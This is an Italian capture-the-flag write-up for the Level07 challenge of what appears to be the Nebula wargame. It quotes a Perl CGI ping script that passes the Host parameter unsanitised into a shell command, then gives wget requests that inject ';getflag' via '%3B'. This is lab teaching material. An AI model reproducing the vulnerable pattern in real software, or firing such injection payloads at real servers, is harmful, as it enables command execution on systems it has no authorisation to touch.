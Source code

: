 ## Level07

### Consegna

> The **flag07** user was writing their very first PERL program that allowed them to ping hosts to see if they were reachable from the web server.
> 
> 
> To do this level, log in as the **level07** account with the password **level07**. Files for this level can be found in /home/flag07.
> 

### Tipo Vulnerabilità

Improper Neutralization of Special Elements used in an OS Command Injection

### Descrizione Exploit

```bash
#!/usr/bin/perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub ping {
  $host = $_[0];

  print("<html><head><title>Ping results</title></head><body><pre>");

  @output = `ping -c 3 $host 2>&1`;
  foreach $line (@output) { print "$line"; }

  print("</pre></body></html>");
  
}

# check if Host set. if not, display normal page, etc

ping(param("Host"));
```

```bash
wget 'http://127.0.0.1:7007/index.cgi?Host=%3Bgetflag'
# comando eseguito in un path in cui il server può scrivere

wget -qO- 'http://127.0.0.1:7007/index.cgi?Host=%3Bgetflag'
# comando eseguito con risposta su stdout
```

In un URL, caratteri riservati come `;`, `?`, `&`, ecc. **hanno un significato speciale, s**e vuoi usarli **letteralmente nel valore del parametro**, è necessario **percent-encodarli** (URL-encoding), ossia sostituirli con `%HH`, dove `HH` è il valore esadecimale del carattere.
